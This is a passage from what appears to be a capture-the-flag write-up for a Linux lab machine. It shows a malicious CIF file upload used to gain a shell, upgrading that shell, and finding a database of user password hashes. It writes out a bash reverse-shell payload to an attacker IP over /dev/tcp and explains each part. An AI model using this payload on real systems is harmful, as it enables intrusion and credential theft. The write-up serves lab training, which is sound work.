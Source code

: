 #### File Creation

![vuln_cif_file](https://github.com/user-attachments/assets/3346feab-e5a9-482e-8ed3-a601bf60946b)


##### My go-to for creating reverse shells is revshells.com. In this case, I went with an interactive bash shell since this is a Linux box. Initially, my shell would not work, but with some trial and error, the following is what I came up with: 
##### '/bin/bash /c 'exec /bin/bash -i &>/dev/tcp/10.10.14.12/4444 <&1'

##### It runs /bin/bash -c '' where inbetween the quotes you can put a command that will be executed. 'exec' replaces the current process running with the command following, in this case, "/bin/bash -i" which launches an interactive bash shell. "&>/dev/tcp/10.10.14.12/4444" is used to redirect standard output and standard error to the newly created network connection (reverse shell to your IP/Port). "<&1" effectively links the victim's shell input with the attacker's output.
<br>

#### Exploit

![vuln_cif_view](https://github.com/user-attachments/assets/66d4caa1-6ea0-48d0-a808-f5a35cf09149)

##### After crafting the payload, the reverse shell was created by uploading the malicious CIF file and clicking the 'View' button to run the file on the victim machine. This was caught by a Netcat listener on my machine on port 4444 gaining us access to the system as the 'app' user.

![revshell_completed](https://github.com/user-attachments/assets/75cc6f06-955f-490a-a7ef-be793a1e0845)

<br>
<br>

#### Upgrading the Reverse Shell
##### To upgrade my reverse shell, I used "python3 -c "import pty;pty.spawn('/bin/bash')" so that I could navigate a bit easier. 
<br>

#### Interesting Database File

![database_file_hash](https://github.com/user-attachments/assets/981e9fb9-5f53-4232-b5cb-fef438366b70)

##### I came accross a .db file which contained various users and hashes. There were a few users and hashes, but the one that ended up being of use was 'rosa'. 
<br>
